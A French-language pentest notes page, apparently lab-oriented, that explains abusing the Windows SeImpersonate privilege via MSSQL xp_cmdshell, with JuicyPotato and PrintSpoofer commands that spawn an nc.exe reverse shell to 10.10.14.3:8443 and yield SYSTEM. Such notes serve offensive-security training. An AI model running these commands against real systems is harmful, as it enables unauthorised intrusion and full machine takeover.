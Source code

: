 # SeImpersonate and SeAssignPrimaryToken

***

{% hint style="warning" %}
Le privilège **SeImpersonate** permet d’utiliser le jeton d’un autre processus pour exécuter des actions avec ses droits, y compris SYSTEM.\
Normalement réservé aux administrateurs, il peut être exploité par un attaquant via des techniques comme les attaques **Potato**, qui trompent un processus SYSTEM pour obtenir son jeton.\
On le rencontre souvent après une compromission via un service (webshell ASP.NET, Jenkins, MSSQL, etc.), et sa présence est un signal fort qu’une escalade rapide vers SYSTEM est possible.
{% endhint %}

***

> Un bon article existe à propos des attaques par **usurpation de jeton**. : [https://github.com/hatRiot/token-priv/blob/master/abusing\_token\_eop\_1.0.txt](https://github.com/hatRiot/token-priv/blob/master/abusing_token_eop_1.0.txt)
>
> [https://github.com/tylerdotrar/SigmaPotato?ref=benheater.com](https://github.com/tylerdotrar/SigmaPotato?ref=benheater.com)

***

### <mark style="color:red;">Exemple de SeImpersonate – JuicyPotato</mark>

***

#### <mark style="color:green;">Connexion avec MSSQLClient.py</mark>

```
$ mssqlclient.py sql_dev@10.129.43.30 -windows-auth
```

```
SQL> enable_xp_cmdshell
```

```
SQL> xp_cmdshell whoami
=> nt service\mssql$sqlexpress01
```

***

#### <mark style="color:green;">Vérification des privilèges</mark>

```
SQL> xp_cmdshell whoami /priv
```

On voit entre autres :

* `SeImpersonatePrivilege` → Activé
* `SeAssignPrimaryTokenPrivilege` → Désactivé
* On peut donc utiliser des outils comme **JuicyPotato** pour en tirer parti via une **faille DCOM/NTLM**.

{% hint style="warning" %}
<mark style="color:yellow;">**La faille DCOM/NTLM exploitée par JuicyPotato**</mark>

* **Idée** :
  1. Avec **SeImpersonate**, l’attaquant peut attendre qu’un processus SYSTEM tente de s’authentifier.
  2. En utilisant une **fonction DCOM**, il déclenche une connexion **NTLM** de SYSTEM vers un service qu’il contrôle (ex. un _named pipe_ malveillant).
  3. SYSTEM envoie son jeton NTLM → l’attaquant l’intercepte.
  4. L’attaquant **s’exécute avec ce jeton**, devenant SYSTEM.
{% endhint %}

***

#### <mark style="color:green;">Escalade de privilèges avec JuicyPotato</mark>

1. Télécharger **JuicyPotato.exe** et **nc.exe**
2. Les transférer sur le serveur
3. Lancer un écouteur Netcat (`nc -lnvp 8443`)
4. Exécuter :

{% code overflow="wrap" fullWidth="true" %}
```powershell
SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
```
{% endcode %}

***

### <mark style="color:red;">PrintSpoofer et RoguePotato</mark>

⚠️ **JuicyPotato ne fonctionne plus** sous **Windows Server 2019** ou **Windows 10 version 1809+**.

Mais **PrintSpoofer** et **RoguePotato** peuvent encore exploiter les **mêmes privilèges**.

[https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)

***

#### <mark style="color:green;">Escalade avec PrintSpoofer</mark>

Encore une fois, on connecte via `mssqlclient.py` et on lance :

```
SQL> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"
```

***
